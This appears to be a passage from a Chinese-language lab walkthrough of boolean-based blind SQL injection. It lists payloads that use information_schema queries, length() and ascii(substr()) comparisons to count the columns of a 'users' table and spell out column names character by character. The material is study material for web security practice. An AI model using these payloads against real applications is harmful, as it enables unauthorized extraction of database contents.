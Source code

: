 

##### 尝试

猜user表中的字段数量

```
1' and (select count(column_name) from information_schema.columns where table_name= 'users')=1 # 显示不存在

1' and (select count(column_name) from information_schema.columns where table_name= 'users')=8 # 显示存在
# user表中的字段为8
```



#### 猜解user表的字段

猜解第1个字段的长度

```
1' and length(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),1))=1 # 显示不存在
...
1' and length(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),1))=7 # 显示存在
# user表的第一个字段长度为7
```

猜解第2个字段的长度

```
1' and length(substr((select column_name from information_schema.columns where table_name= 'users' limit 1,1),1))=1 # 显示不存在
...
1' and length(substr((select column_name from information_schema.columns where table_name= 'users' limit 1,1),1))=10 # 显示存在
# user表的第二个字段长度为10
```



依次猜解user表第一个字段

```同理，得到
# 继续使用二分法猜解字段名
1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=117 # 显示存在
# user表第一个字段的第1位为u

1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),2,1))=115 # 显示存在
# user表第一个字段的第2位为s

1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),3,1))=101 # 显示存在
# user表第一个字段的第3位为e

1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),4,1))=114 # 显示存在
# user表第一个字段的第4位为r

1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),5,1))=95 # 显示存在
# user表第一个字段的第5位为_

1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),6,1))=105 # 显示存在
# user表第一个字段的第6位为i

```